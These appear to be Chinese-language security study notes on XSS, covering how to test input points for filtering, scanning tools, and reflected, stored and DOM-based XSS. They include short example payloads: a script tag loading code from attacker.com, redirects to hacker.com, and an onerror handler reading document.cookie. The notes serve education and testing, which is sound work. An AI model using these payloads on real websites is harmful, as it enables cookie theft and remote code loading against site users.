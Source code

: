 ### （1）手动验证（配合burpsuite、hackbar等工具）

- 第一步，寻找**用户可控的参数**（**输入点**） 
- 第二步，测试**特殊符号，单引号、双引号、尖括号**等**是否被过滤**或处理
- 第三步，根据第二步测试结果进行操作，如**过滤了事件类型的关键字**，**构造新的script标签**去形成新的js环境，或者**针对一些其它防护进行绕过**

### （2）工具探测

使用**漏扫工具**：`AWVS`、`x-ray`等漏洞扫描工具。

> 使用burpsuite或hackbar进行手注，
>
> 寻找注入点，所用用户能输入的地方，例如表单、评论区、URL
>
> 测试特殊符号和关键字是否被过滤或处理，例如，单引号、双引号、尖括号，script关键字等
>
> 根据过滤情况，构造js语句进行绕过
>
> 也可以用漏扫工具进行漏洞扫描，例如AWVS，x-ray

## 3、XSS有哪几种类型？（重点）

**反射型XSS**，**储存性XSS**，**DOM型XSS**

XSS的攻击方法主要分为三类，分别是反射型XSS，存储型XSS和DOM型的XSS。

### （1）反射型XSS

攻击者将**恶意脚本插入到浏览器的网页中**，当**用户访问该网页时**，**恶意脚本被服务器返回，并被浏览器执行**，从而实现XSS攻击。

```js
<script>alert(1);</script>
<script>alert("XSS");</script>
```

### （2）存储型XSS

攻击者将**恶意脚本存储在网站的数据库**中，当用户访问被攻击的页面时，服务器**从数据库中读取该恶意脚本并将其发送给用户浏览器执行**，从而实现攻击。

```js
<script src="http://attacker.com/hack.js"></script>
```

### （3）DOM型XSS

DOM型XSS和反射型XSS类似，最大的区别就是它**不经过服务器**，仅仅是**通过网页本身的JavaScript进行渲染触发**的，**只会加载一次**。

```js
<script> window.location= "http://hacker.com" </script> 
<script>location.href= "http://hacker.com"</script>
<img src= "#"  onerror= alert(document.cookie)>
```

> XSS主要分为反射型，存储型和基于的DOM的XSS，3类
>
> 存储型 XSS,  恶意代码被持久存储在目标服务器上,例如数据库、日志文件等地方。当用户访问该页面时，恶意脚本会自动加载并执行。
>
> 反射型 XSS，恶意脚本插入到浏览器的网页中，恶意脚本被服务器返回，导致浏览器执行。攻击依赖于用户点击恶意链接。
>
> 基于DOM的 XSS，恶意脚本不需要通过服务器返回，而是通过直接修改浏览器的DOM结构来执行。

